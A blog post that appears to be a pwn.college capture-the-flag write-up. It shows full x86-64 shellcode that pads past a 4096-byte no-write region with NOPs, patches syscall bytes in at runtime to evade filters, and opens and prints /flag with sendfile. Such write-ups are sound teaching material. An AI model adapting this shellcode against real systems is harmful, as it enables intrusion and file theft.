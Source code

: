 +++
title = 'No Write Permissions in Shellcode Begin'
date = 2023-09-22T14:50:16-04:00
description = "In this post, I will explain how I bypassed no-write permissions in a simples shellcoding challenge"
draft = false
+++
A while ago i was solving this challenge from [pwn.college](https://pwn.college) in the `shellcoding` module, it's a pretty fun challenge to solve, where you need to think outside-of-the-box (a little).

This challenge remove write permissions in the first 4096 bytes of our `shellcode`, therefore we need to put 4096 bytes of garbage before we start the `shellcode`.

This sounds hard but luckily assembly makes it very easy for us to achieve this.

Here's a program i used to solve the challenge, note that it's exactly like the challenge i have shown at [[Writing Shellcode without Syscalls]], but this time the first 4096 bytes of the `shellcode` aren't written.
```nasm
.global _start
_start:
.intel_syntax noprefix
    .rept 4096
    nop
    .endr

    # prepare syscall
    mov byte ptr[rip+label], 0x0f
    mov byte ptr[rip+label+1], 0x05
    lea r9, [rip+label]

    # clear registers
    xor rbx, rbx
    xor rdx, rdx
    xor rsi, rsi
    xor rdi, rdi
    xor r10, r10

    # open flag file
    mov ebx, 0x67616c66
    shl rbx, 8
    mov bl, 0x2f
    push rbx
    mov rdi, rsp
    mov rax, 2
    call r9

label:
    .word 0x0000

    xor r9, r9
    # prepare next syscall
    mov byte ptr[rip+label2], 0x0f
    mov byte ptr[rip+label2+1], 0x05
    lea r9, [rip+label2]

    xor rsi, rsi
    xor r10, r10
    xor rdi, rdi
    xor rdx, rdx
    xor rbx, rbx
    # sendfile
    mov rdi,1
    mov rsi, rax
    mov r10, 100
    mov rax, 40
    call r9
label2:
    .word 0x0000

    xor r9, r9
    # prepare syscall
    mov byte ptr[rip+label3], 0x0f
    mov byte ptr[rip+label3+1], 0x05
    lea r9, [rip+label3]
    # exit
    xor rsi, rsi
    xor r10, r10
    xor rax, rax
    xor rdi, rdi
    mov rax, 60
    mov rdi, 5
    call r9

label3:
    .word 0x0000
```

We used the `.rept <value>` instruction and the `.endr` instruction which ends the repeat, basically like a loop and everything in-between will be repeated in the assembled program.

For example, the following code would write 4096 nops in our `shellcode`, resulting in a very long `shellcode` but effectively bypassing the required filters.
```nasm
.rept 4096
nop
.endr
```


